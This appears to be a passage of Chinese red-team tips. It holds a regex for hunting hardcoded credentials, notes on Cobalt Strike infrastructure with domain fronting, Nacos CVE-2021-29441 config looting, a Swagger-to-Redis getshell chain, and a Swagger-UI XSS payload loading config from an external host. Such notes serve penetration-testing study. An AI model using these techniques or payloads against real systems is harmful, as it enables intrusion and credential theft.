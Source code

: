     ((access_key|access_token|admin_pass|admin_user|algolia_admin_key|algolia_api_key|alias_pass|alicloud_access_key|amazon_secret_access_key|amazonaws|ansible_vault_password|aos_key|api_key|api_key_secret|api_key_sid|api_secret|api.googlemaps AIza|apidocs|apikey|apiSecret|app_debug|app_id|app_key|app_log_level|app_secret|appkey|appkeysecret|application_key|appsecret|appspot|auth_token|authorizationToken|authsecret|aws_access|aws_access_key_id|aws_bucket|aws_key|aws_secret|aws_secret_key|aws_token|AWSSecretKey|b2_app_key|bashrc password|bintray_apikey|bintray_gpg_password|bintray_key|bintraykey|bluemix_api_key|bluemix_pass|browserstack_access_key|bucket_password|bucketeer_aws_access_key_id|bucketeer_aws_secret_access_key|built_branch_deploy_key|bx_password|cache_driver|cache_s3_secret_key|cattle_access_key|cattle_secret_key|certificate_password|ci_deploy_password|client_secret|client_zpk_secret_key|clojars_password|cloud_api_key|cloud_watch_aws_access_key|cloudant_password|cloudflare_api_key|cloudflare_auth_key|cloudinary_api_secret|cloudinary_name|codecov_token|config|conn.login|connectionstring|consumer_key|consumer_secret|credentials|cypress_record_key|database_password|database_schema_test|datadog_api_key|datadog_app_key|db_password|db_server|db_username|dbpasswd|dbpassword|dbuser|deploy_password|digitalocean_ssh_key_body|digitalocean_ssh_key_ids|docker_hub_password|docker_key|docker_pass|docker_passwd|docker_password|dockerhub_password|dockerhubpassword|dot-files|dotfiles|droplet_travis_password|dynamoaccesskeyid|dynamosecretaccesskey|elastica_host|elastica_port|elasticsearch_password|encryption_key|encryption_password|env.heroku_api_key|env.sonatype_password|eureka.awssecretkey)[a-z0-9_ .\-,]{0,25})(=|>|:=|\|\|:|<=|=>|:).{0,5}['"]([0-9a-zA-Z\-_=]{8,64})['"]
    ```

> 小技巧来自项目 : https://github.com/AbelChe/macos-all

---

推荐用 terraform 进行红队基础设施的快速部署,写好配置即可做到一键起 cs,一键配置域前置

---

内网找找 nacos,通过 CVE-2021-29441 进后台可以翻翻配置文件,可能有数据库连接配置和 accesskey 等内容

---

网站会加载很多 js 文件，通过浏览器调试就能全局搜索关键的东西，浏览器 F12 打开调试，ctrl+r 刷新，搜索密钥一般用到的参数关键词比如 secret accesskey corpid 等，通过这种方式搜索敏感信息找到密钥

---

一个通过 swagger 作为入口点的案例分享(没图,凑合着看吧)
1. 扫描发现 swagger 文档,找到其中一个未授权的文件下载接口
2. 判断目标为 linux, 下载读取 bash 的历史命令
3. 在历史命令中得知存在 redis 的服务, 及配置文件地址, 顺便扫端口看了下, 可通, 但有密码
4. 读取 redis 配置文件, 看 requirepass 参数
5. 常规套路, redis getshell

---

遇到了 swagger-ui 除了找接口测试信息泄漏、越权、注入、上传等，还可以直接 xss

```
/swagger-ui.html?configUrl=https://jumpy-floor.surge.sh/test.json
```

![](./assets/img/11.png)

> 来自文章 : https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

---
